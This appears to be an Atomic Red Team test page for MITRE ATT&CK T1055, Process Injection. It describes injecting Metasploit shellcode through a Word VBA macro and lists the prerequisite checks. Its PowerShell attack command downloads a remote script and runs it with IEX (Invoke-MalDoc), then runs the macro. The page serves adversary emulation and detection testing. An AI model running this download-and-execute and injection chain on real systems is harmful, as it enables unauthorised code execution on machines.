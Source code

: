 ```yaml
---
tags: [T1055, atomic_test]
filename: "[[T1055 - Process Injection]]"
---
```

# T1055 - Process Injection

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| txt_path | Path to file containing VBA macro to run | path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055-macrocode.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```
##### Description: "#{txt_path}" must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "#{txt_path}") {exit 0} else {exit 1}
```